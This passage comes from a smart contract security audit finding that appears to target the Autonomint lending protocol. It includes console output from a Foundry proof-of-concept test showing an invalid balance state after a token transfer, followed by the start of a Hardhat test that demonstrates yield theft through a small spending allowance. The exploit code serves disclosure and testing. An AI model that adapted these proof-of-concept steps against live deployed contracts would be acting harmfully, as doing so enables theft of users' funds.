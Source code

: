 Console output

```console
Ran 1 test for test/foundry/Abond_Token.t.sol:AbondTokenTest
[PASS] test_poc_invalid_state() (gas: 118149)
Logs:
  
before transfer alice state
  > ethBacked 1000000000000000000
  > aBondBalance 1000000000000000000
  
before transfer eve state
  > ethBacked 0
  > aBondBalance 0
  
after transfer alice state
  > ethBacked 1000000000000000000
  > aBondBalance 1000000000000000000
  
after transfer eve state
  > ethBacked 1000000000000000000
  > aBondBalance 1000000000000000000
```

#### PoC for 1st Impact

This demonstrates the yield stealling. `eve` persuades `alice`, who is with higher `ethBacked` to allow `eve` to spend 1 wei on behalf of `alice`. `eve` can redeem more yields than they deserve - which is effectively yield stealing from the protocol (from `alice` actually)

Add the following to [`BorrowingTest.ts:2862`](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/test/BorrowingTest.ts#L2862) and run `npx hardhat test test/BorrowingTest.ts`.

```typescript
it.only("POC to redeem more than expected",async function(){
    const {BorrowingContractA,TokenA,globalVariablesA,usdtA,CDSContractA,abondTokenA} = await loadFixture(deployer);
    const alice = user1;
    const eve = user2;
    await ethers.provider.send("hardhat_setBalance", [alice.address, "0x"+ethers.parseEther("3").toString(16)]);
    await ethers.provider.send("hardhat_setBalance", [eve.address, "0x"+ethers.parseEther("3").toString(16)]);
    
    const timeStamp = await time.latest();
    await usdtA.connect(alice).mint(alice.getAddress(),10000000000)
    await usdtA.connect(alice).approve(CDSContractA.getAddress(),10000000000);

    const options = Options.newOptions().addExecutorLzReceiveOption(400000, 0).toHex().toString()
    let nativeFee = 0
    ;[nativeFee] = await globalVariablesA.quote(1,0, options, false)
    await CDSContractA.connect(alice).deposit(10000000000,0,true,10000000000,100000, { value: nativeFee.toString()});

    const aliceDepositAmount = ethers.parseEther("2");
    const eveDepositAmount = ethers.parseEther("1");

    await BorrowingContractA.connect(alice).depositTokens(
        100000,
        timeStamp,
        [1,
        100000,
        ethVolatility,1,
        aliceDepositAmount],
        {value: (aliceDepositAmount +  BigInt(nativeFee))})
```